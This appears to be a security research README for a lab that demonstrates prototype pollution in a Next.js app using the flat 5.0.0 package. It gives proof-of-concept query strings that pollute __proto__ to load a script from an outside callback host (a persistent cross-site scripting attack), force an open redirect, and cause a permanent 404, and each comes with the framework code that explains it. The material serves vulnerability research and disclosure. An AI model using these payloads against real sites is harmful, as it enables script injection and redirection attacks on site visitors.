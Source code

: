 # Next.js Flat Prototype Pollution

A prototype pollution scenario in [Next.js](https://github.com/vercel/next.js/) when [flat:5.0.0](https://www.npmjs.com/package/flat) is used.

> Video goes here

## Setup Instructions

Install dependencies and start production server.

```sh
npm install
npm run build
npm start
```

## Gadgets

> Lot of unexplored surface. If you find anything send a pull request :)

| Name                              | Description                                        | Type          | Package                         | Completed |
| --------------------------------- | -------------------------------------------------- | ------------- | ------------------------------- | :-------: |
| [AMP first look](#amp-first-look) | via `ampUrlPrefix` in `ampOptimizer.transformHtml` | XSS           | `@ampproject/toolbox-optimizer` |     ✔     |
| [Redirect SSR](#redirect-ssr)     | via `redirect.destination` in `getServerSideProps` | Open Redirect | `next`                          |     ✔     |
| [404 SSR](#404-ssr)               | via `notFound` in `getServerSideProps`             | Permanant 404 | `next`                          |     ✔     |
| More AMP                          |                                                    |               |                                 |           |
| React Server Components           |                                                    |               |                                 |           |
| Image & Font Optimization         |                                                    |               |                                 |           |
| API & Middlewares                 |                                                    |               |                                 |           |
| Router                            |                                                    |               |                                 |           |
| Prisma                            |                                                    |               |                                 |           |

## AMP first look

via `ampUrlPrefix` in `ampOptimizer.transformHtml` (Session-wide XSS (like broadcast)).

**Poc**

```sh
# XSS on a AMP enabled Page
/vulnerable?__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# XSS on a Non-AMP Page (but AMP should be enabled in atleast one other page on the site)
/vulnerable?amp=1&__proto__.amp=hybrid&__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

```

**Cause**

Requires 2 stages to poision the server-side code with our payload because AMP check happens before the pollution in `getServerSideProps`. So we pollute in the first request and trigger in another which does a new AMP check and optimize. Once it's poisioned any single subsequent request will trigger XSS on any session as the server-side code is poisioned via prototype pollution.

```js
// next/server/render.tsx
const ampState = {
  ampFirst: pageConfig.amp === true,
  hasQuery: Boolean(query.amp),
  hybrid: pageConfig.amp === "hybrid",
};
const inAmpMode = !process.browser && (0, _amp).isInAmpMode(ampState); // isInAmpMode() { return ampFirst || hybrid && hasQuery }
// ...
html = await optimizeAmp(html, renderOpts.ampOptimizerConfig);

// next/server/optimize-amp.ts
const optimizer = AmpOptimizer.create(config);
return optimizer.transformHtml(html, config); // config.ampUrlPrefix = 'https://xss-callback.pwnfunction.repl.co/'

// @ampproject/toolbox-optimizer/index.js
async transformHtml(t, e) {
    const r = await i.parse(t);
    await this.transformTree(r, e);
    return i.serialize(r);
}

// `transformTree` eventually leads to the following
5690: (t, e, r) => {
    // ...
    class RewriteAmpUrls {
        // ...
        transform(t, e) {
            // ...
            d.push(this._createPreload(l.attribs.src, "script")); // l.attribs.src = 'https://xss-callback.pwnfunction.repl.co/'
            // ...
        }
        // ...
    }
    t.exports = RewriteAmpUrls;
},

// <script async="" src="https://xss-callback.pwnfunction.repl.co/v0.js"></script>
```

> Note: In `next.config.js`, we skip validation `skipValidation: true`, this is to disable `SeparateKeyframes` (`fn 1053`) - `@ampproject/toolbox-optimizer/index.js` throws `filter on undefined` due to prototype pollution. (Lazy fix)

## Redirect SSR

**Poc**

```url
/vulnerable?__proto__.redirect.destination=https://pwnfunction.com
```

**Cause**

```js
// next/server/render.tsx
if ("redirect" in data && typeof data.redirect === "object") {
  checkRedirectValues(data.redirect, req, "getServerSideProps");
  data.props = {
    __N_REDIRECT: data.redirect.destination,
    __N_REDIRECT_STATUS: (0, _loadCustomRoutes).getRedirectStatus(
      data.redirect
    ),
  };
  if (typeof data.redirect.basePath !== "undefined") {
    data.props.__N_REDIRECT_BASE_PATH = data.redirect.basePath;
  }
  renderOpts.isRedirect = true;
}
```

## 404 SSR

**Poc**

```url
/vulnerable?__proto__.notFound=1
```

**Cause**

```js
// next/server/render.tsx
if ('notFound' in data && data.notFound) {
    if (pathname === '/404') {
        throw new Error(
            `The /404 page can not return notFound in "getStaticProps", please remove it to continue!`
        )
    }

    ;(renderOpts as any).isNotFound = true
    return null
}
```
